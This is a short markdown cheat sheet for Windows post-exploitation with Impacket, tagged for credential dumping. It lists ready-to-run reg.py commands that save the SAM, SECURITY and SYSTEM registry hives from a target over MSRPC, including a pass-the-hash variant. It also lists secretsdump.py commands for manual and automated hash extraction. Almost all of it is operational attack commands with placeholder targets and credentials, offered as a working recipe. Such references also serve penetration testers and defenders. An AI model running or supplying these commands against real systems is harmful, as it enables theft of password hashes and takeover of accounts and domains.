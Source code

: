 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - os-credential-dumping
  - network-ports
  - msrpc
  - smb
  - staying-off-the-land
  - windows
---
```

# Impacket

## 01 - Manual Hashdump

### 1.1 - Extract hive files

#### 1.1.1 - MSRPC Port

```
$ export IP="<target_IP>"
export USERNAME="<username>"
export PASSWORD="<password>"
reg.py "$USERNAME":"$PASSWORD"@$IP save -keyName "HKLM\SAM" -o "\\\\$IP\\c$\\windows\\temp\\"
reg.py "$USERNAME":"$PASSWORD"@$IP save -keyName "HKLM\SECURITY" -o "\\\\$IP\\c$\\windows\\temp\\"
reg.py "$USERNAME":"$PASSWORD"@$IP save -keyName "HKLM\SYSTEM" -o "\\\\$IP\\c$\\windows\\temp\\"
```

Pass The Hash

```
$ export IP="<target_IP>"
export USERNAME="<username>"
export NT_HASH="<nt_hash>"
reg.py "$USERNAME"@$IP -hashes :$NT_HASH save -keyName "HKLM\SAM" -o "\\\\$IP\\c$\\windows\\temp\\"
reg.py "$USERNAME"@$IP -hashes :$NT_HASH save -keyName "HKLM\SECURITY" -o "\\\\$IP\\c$\\windows\\temp\\"
reg.py "$USERNAME"@$IP -hashes :$NT_HASH save -keyName "HKLM\SYSTEM" -o "\\\\$IP\\c$\\windows\\temp\\"
```

### 1.2 - Parse hive files

```
$ secretsdump.py [<domain>/]<username>:<password>@<IP> [-exec-method <smbexec | wmiexec | mmcexec>] -use-remoteSSMethod

$ secretsdump.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-exec-method <smbexec | wmiexec | mmcexec>] -use-remoteSSMethod
```

## 02 - Automated Hashdump

```
$ secretsdump.py [<domain>/]<username>:<password>@<IP> [-exec-method <smbexec | wmiexec | mmcexec>]

$ secretsdump.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-exec-method <smbexec | wmiexec | mmcexec>]
```

---
## References

### Wadcoms

- [Wadcoms: Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)

### The Hacker Recipes

- [The Hacker Recipes: NTDS secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds)